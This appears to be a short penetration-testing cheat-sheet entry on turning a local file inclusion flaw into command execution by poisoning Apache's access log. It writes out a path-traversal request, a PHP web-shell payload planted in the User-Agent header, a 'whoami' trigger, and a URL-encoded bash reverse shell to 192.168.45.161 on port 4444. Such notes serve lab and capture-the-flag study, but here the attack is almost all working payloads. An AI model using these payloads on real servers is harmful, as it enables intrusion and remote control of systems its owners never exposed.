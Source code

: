 If an LFI vulnerability is present, we can potentially alter log files to enable command execution.

Requirements: LFI and log file

Example: `index.php?page=../../../../var/log/apache2/access.log

Exploitation Example
```bash
# Example
index.php?page=../../../../var/log/apache2/access.log

# Intercept request and modify User-Agent field:
User-Agent: <?php echo system($_GET['cmd']); ?>

# Send

# Visit site and append cmd to url
index.php?page=../../../../var/log/apache2/access.log&cmd=whoami
```
See [[Web Shells]] if not php

With this, you can append more complex commands via URL encoding

Example Commands:
```bash
ls%20-la

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.161%2F4444%200%3E%261%22

...
```
